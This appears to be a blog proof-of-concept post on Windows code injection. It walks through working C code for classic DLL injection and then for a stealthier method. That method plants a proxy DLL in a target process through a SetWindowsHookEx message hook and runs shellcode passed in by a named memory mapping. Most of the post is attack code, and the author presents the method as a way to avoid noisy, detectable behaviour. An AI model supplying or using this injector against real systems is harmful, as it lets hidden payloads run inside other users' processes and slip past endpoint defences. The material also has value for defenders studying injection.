





Overview: Its been a while
since my last post, today we will do another POC of code execution
technique.
As we already knew about standard DLL Injection,
required creating a virtual memory and also creating remote thread
in target process, which is a little bit noisy. This technique will
cover these problems.
This sample was created on the x64 architecture.
Exploring how is this technique works underhood. Now look at the code snippet of standard DLL Injection
// injector.c
wchar_t dll_path[] = L"D:\\vs_c\\malicious\\x64\\Release\\malicious.dll";
int dll_size = sizeof(dll_path);
HANDLE handle_process;
PVOID remote_buffer;
HANDLE handle_thread;
DWORD PID = atoi(argv[1]); // take 1st params in command line
handle_process = p_OpenProcess(PROCESS_ALL_ACCESS, 0, PID);
if (!handle_process) return -1;
remote_buffer = p_VirtualAllocEx(handle_process, NULL, dll_size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
if (!remote_buffer) {
return -1;
};
// write into remote_buffer the path to malicious.dll
if (!p_WriteProcessMemory(handle_process, remote_buffer, dll_path, dll_size, NULL)) return 1;
PTHREAD_START_ROUTINE thread_entry = (PTHREAD_START_ROUTINE)p_LoadLibraryW; // thread entry
if (!thread_entry) return -1;
handle_thread = p_CreateRemoteThread(handle_process, 0, NULL, thread_entry, remote_buffer, 0, NULL);
if (handle_thread) {
WaitForSingleObject(handle_thread, INFINITE);
p_CloseHandle(handle_thread);
}
p_VirtualFreeEx(handle_process, remote_buffer, 0, MEM_RELEASE);
p_CloseHandle(handle_process); First we need to open handle to target process
// injector.c
handle_process = p_OpenProcess(PROCESS_ALL_ACCESS, 0, PID);
if (!handle_process) return -1;Next allocate a memory then write the malicious dll into that memory. Final, made the thread entry which is LoadLibraryW function to force the target to load malicious DLL
// injector.c
remote_buffer = p_VirtualAllocEx(handle_process, NULL, dll_size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
if (!remote_buffer) {
return -1;
};
// write into remote_buffer the path to malicious.dll
if (!p_WriteProcessMemory(handle_process, remote_buffer, dll_path, dll_size, NULL)) return 1;
PTHREAD_START_ROUTINE thread_entry = (PTHREAD_START_ROUTINE)p_LoadLibraryW; // thread entry
if (!thread_entry) return -1;
handle_thread = p_CreateRemoteThread(handle_process, 0, NULL, thread_entry, remote_buffer, 0, NULL);
if (handle_thread) {
WaitForSingleObject(handle_thread, INFINITE);
p_CloseHandle(handle_thread);
}Inside the malicious DLL, also contains malicious code. So this standard technique is pretty noisy right?
Now, we break down step by step the technique to inject a DLL inside target process without using CreateRemoteThread
First stage. We need to init a proxy.dll which will be the launchpad. This DLL will export 1 function, and this function acts like a proxy.

// proxy.dll
extern "C" __declspec(dllexport) LRESULT CALLBACK forward_hook(int nCode, WPARAM wParam, LPARAM lParam) {
return CallNextHookEx(NULL, nCode, wParam, lParam);
}
This is when it called by thread, the function will forward to the CallNextHookEx avoid crashing the target process
Next step, the injector will load this proxy.dll to itself with the flag DONT_RESOLVE_DLL_REFERENCES avoid trapping itself

// injector.c
HMODULE proxy_module_handle = p_LoadLibraryExA("proxy-dll.dll", NULL, DONT_RESOLVE_DLL_REFERENCES);
if (!proxy_module_handle) {
printf("[!] Failed to get handle to proxy dll. Error code: %d", GetLastError());
return FALSE;
}Before that, the injector will reads the payload buffer then creates a mapping object to map the payload onto it. Store first 4 bytes which is payload size.

// injector.c
DWORD mapping_size = shellcode_size + sizeof(DWORD); // store 4 bytes for shellcode size
// create mapping object
HANDLE mapping_handle = p_CreateFileMappingA(INVALID_HANDLE_VALUE, NULL, PAGE_READWRITE, 0, mapping_size, "Local\\secretX");
PVOID map_local_address = p_MapViewOfFile(mapping_handle, FILE_MAP_WRITE, NULL, NULL, mapping_size);
*(DWORD*)map_local_address = shellcode_size;
// map the payload to object
RtlCopyMemory(((PBYTE)map_local_address + sizeof(DWORD)), execute_address, shellcode_size);
printf("[i] Shellcode mapping in local memory at: %p\n", map_local_address);The next stage will be visualize by the image below

First injector will find the thread id in target process
// injector.c
DWORD thread_id = get_thread_id(target_process_id);
if (thread_id == 0) { // avoid crashing
printf("[i] Failed to get thread id of process %d", target_process_id);
return FALSE;
}Then set hook (trap) to the thread in target process, wait for thread to step in the trap
// injector.c
HOOKPROC hook_proc = (HOOKPROC)p_GetProcAddress(proxy_module_handle, "forward_hook");
HHOOK hook_handle = p_SetWindowsHookExA(WH_GETMESSAGE, hook_proc, proxy_module_handle, thread_id);
if (!hook_handle) {
printf("[!] Failed to place hook. Error code: %d\n", GetLastError());
return FALSE;
}
printf("[i] Hook placed in thread id: %d of Process: %d.\nWait for execution. 10 seconds remaining\n", thread_id, target_process_id);
Sleep(10000);When thread step into the trap, proxy.dll will be loaded in to target process and active the trigger DLL_PROCESS_ATTACH. Then mapping the malicious code from object to its memory

Active the boom inside
// proxy.dll
void execute_payload() {
//read the mapping object
HANDLE mapping_handle = OpenFileMappingA(FILE_MAP_READ, FALSE, "Local\\secretX");
if (mapping_handle == NULL) return;
LPVOID local_mapping_address = MapViewOfFile(mapping_handle, FILE_MAP_READ, 0, 0, 0);
if (local_mapping_address == NULL) {
CloseHandle(mapping_handle);
return;
}
// take out 4 bytes which is size of payload
DWORD payload_size = *(DWORD*)local_mapping_address;
// the payload will start from offset + 4 (size of DWORD)
unsigned char* shellcode = (unsigned char*)local_mapping_address + sizeof(DWORD);
// allocate a local memory in process
LPVOID allocated_memory = VirtualAlloc(NULL, payload_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (allocated_memory) {
// mapping payload to that local memory
RtlCopyMemory(allocated_memory, shellcode, payload_size);
// change memory permission
DWORD oldProtect;
VirtualProtect(allocated_memory, payload_size, PAGE_EXECUTE_READ, &oldProtect);
// active the booom -> boom
CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)allocated_memory, NULL, 0, NULL);
}
UnmapViewOfFile(local_mapping_address);
//VirtualFree(allocated_memory, payload_size, MEM_RELEASE);
CloseHandle(mapping_handle);
return;
}